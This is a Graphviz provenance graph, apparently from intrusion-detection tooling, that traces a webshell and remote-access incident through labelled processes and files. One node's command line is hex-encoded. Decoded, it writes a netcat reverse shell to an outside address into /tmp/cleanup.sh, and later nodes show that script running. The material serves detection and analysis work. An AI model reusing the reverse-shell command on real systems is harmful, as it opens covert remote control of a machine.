 digraph graph1 {
node [shape = Mrecord];
table172 [label = "{<head>processname: sh | pid: 1378 | cmdline: /bin/sh | starttime: 1618986602273000000 | enddtime: -1 | label: PT9 Execute any command.(webshell) timestamp: 1653025665015 | label: PT8 The uploaded file is read.(webshell) timestamp: 1653025665015 | label: PT10 Shell command.(rat) timestamp: 1618986602269000000}", color = red];
table157 [shape = record, label = "{<head>filename: /tmp/cleanup.sh | label: FT9 The File is written by webshell. timestamp: 1653025665015}"];
table162 [label = "{<head>processname: sh | pid: 1368 | cmdline: /bin/sh -c 6364202f7661722f7777772f68746d6c3b6563686f20276d6b6669666f202f746d702f746262616a6f3b206e63203136392e3235342e3132382e32203838383820303c2f746d702f746262616a6f207c202f62696e2f7368203e2f746d702f746262616a6f20323e26313b726d202f746d702f746262616a6f273e3e2f746d702f636c65616e75702e73683b6563686f205b535d3b7077643b6563686f205b455d | starttime: 1618986281293000000 | enddtime: 1618986281293000000 | label: PT7 The uploaded file is mmap.(webshell) timestamp: 1618986121320000000 | label: PT9 Execute any command.(webshell) timestamp: 1653025665015 | label: PT10 Shell command.(rat) timestamp: 1618986281293000000}"];
table162 -> table157[label = "action: 1  PT9->FT9"];
table172 -> table157[label = "action: 0  FT9->PT8"];
node [shape = record];
table165 [label = "{<head>processname: sh | pid: 1374 | cmdline: /bin/sh /tmp/cleanup.sh | starttime: 1618986602181000000 | enddtime: -1 | uuid: 1374}"];
table165 -> table172[label = "event: Create process"];
node [shape = record];
table163 [label = "{<head>processname: sh | pid: 1373 | cmdline: /bin/sh -c /tmp/cleanup.sh | starttime: 1618986602181000000 | enddtime: -1 | uuid: 1373}"];
table163 -> table165[label = "event: Create process"];
}
